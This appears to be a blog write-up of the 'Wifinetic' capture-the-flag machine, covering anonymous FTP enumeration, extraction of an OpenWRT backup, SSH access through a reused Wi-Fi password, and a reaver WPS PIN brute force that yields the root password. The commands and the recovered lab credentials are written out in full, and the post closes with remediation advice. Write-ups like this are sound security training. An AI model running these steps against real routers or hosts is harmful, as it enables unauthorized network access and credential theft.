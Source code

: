 ```yaml
---
title: "Wifinetic Walkthrough"
date: 2025-07-20
draft: false
tags: ["CTF", "Wireless", "OpenWRT", "Privilege Escalation"]
description: "Casual yet professional write-up of the Wifinetic machine covering FTP enumeration, SSH access, WPS brute force, and root compromise."
---
```


# Wifinetic Walkthrough - Personal Documentation
![wifi](featureimage-1.png)
## Introduction / Synopsis

Wifinetic is a Linux machine that revolves around wireless networking, password reuse, and basic enumeration. This machine focuses on OpenWRT router infrastructure and Wi-Fi security. It starts with an exposed FTP service and ends with a successful WPS brute-force attack that ultimately grants root access. The walkthrough below is structured for clarity :) 

## Technical Walkthrough

### FTP Enumeration

I began by running a full port scan with Nmap:

```bash
nmap -sC -sV 10.129.229.211
```

![Nmap scan results](nmap.png)

This revealed three open ports: FTP (21), SSH (22), and DNS (53). A follow-up service/version scan confirmed that FTP had anonymous login enabled.

After connecting with:

```bash
ftp 10.129.229.211
```

I turned off prompting and downloaded all files:

```bash
prompt
mget *
```

![files](image.png)

Among the files retrieved were:
- ProjectGreatMigration.pdf
- ProjectOpenWRT.pdf
- MigrateOpenWrt.txt
- backup-OpenWrt-2023-07-26.tar

![pdf](pdf.png)

MigrateOpenWrt.txt file informing me the system has reaver installed which will come in handy later. 
![reaver](reaver.png)

### OpenWRT Backup Extraction

I created a folder and extracted the contents of the OpenWRT backup:

```bash
mkdir openwrt_backup
tar -xvf backup-OpenWrt-2023-07-26.tar -C openwrt_backup
```

![tar](tar.png)







Inside the extracted content were familiar OpenWRT directories including `/etc/`, `/config/`, and crucial files like `passwd`, `shadow`, and `wireless`.

### Username Discovery and Password Reuse

From `etc/passwd` and `etc/shadow`, I discovered a custom user named `netadmin`.
![netadmin](netadmin.png)


 While the shadow hashes didn’t crack easily, the `config/wireless` file disclosed a Wi-Fi password:

```
SSID: OpenWrt
Password: VeRyUniUqWiFIPasswrd1!
```
![wireless](wireless.png)


Using this password, I tried SSH access:

```bash
ssh netadmin@10.129.229.211
```

![ssh](ssh.png)

Success. I was in as `netadmin`.

Allowing me to obtain the user flag :)

![userflag](userflag.png)

## Privilege Escalation

Once inside, I began enumerating the network setup to identify a path to root. First, I checked active wireless services:

```bash
systemctl status wpa_supplicant
```


This confirmed that `wpa_supplicant` was active on `wlan1`, indicating it was acting as a Wi-Fi client.

### Interface Roles and Hostapd

To confirm which interface was acting as an AP, I checked:

```bash
systemctl status hostapd
```

This confirmed `hostapd` was running on `wlan0`. Verified modes with:

```bash
iwconfig
```
![iwconfig](iwconfig.png)
Results:
- `wlan0`: AP mode (master)
- `wlan1`: client mode (managed)
- `mon0`: monitor mode (for sniffing)
- `wlan2`: managed, inactive

Further inspection with `iw dev` showed:
- `wlan0` on `phy0`, AP
- `wlan1` as P2P client
- `wlan2` + `mon0` on `phy2`, perfect for monitoring
![iwdev](iwdev.png)

### Brute Forcing WPS PIN

I checked for available tools with:

```bash
getcap -r / 2>/dev/null
```
![reaver2](reaver2.png)
Found `reaver`. Perfect.

To identify the BSSID and channel, I used:

```bash
iw dev
```

```
BSSID: 02:00:00:00:00:00
Channel: 1
```

Launched the attack:

```bash
reaver -i mon0 -b 02:00:00:00:00:00 -vv -c 1
```

![reaverattack](reaverattack.png)

This revealed the WPA PSK:

```
WhatIsRealAnDWhAtIsNot51121!
```

## Root Access

Knowing the system had a pattern of password reuse, I attempted:

```bash
ssh root@10.129.229.211
```

Password: `WhatIsRealAnDWhAtIsNot51121!`

![rootshell](rootshell.png)

This was successful. I grabbed the final flag from:

```bash
cat /root/root.txt
```

## Defense & Remediation Advice

- Disable anonymous FTP access and apply proper file permissions.
- Set `ap_setup_locked=3` in hostapd to prevent WPS brute forcing.
- Avoid password reuse across Wi-Fi and SSH logins.
- Disable monitor-capable interfaces unless explicitly needed.
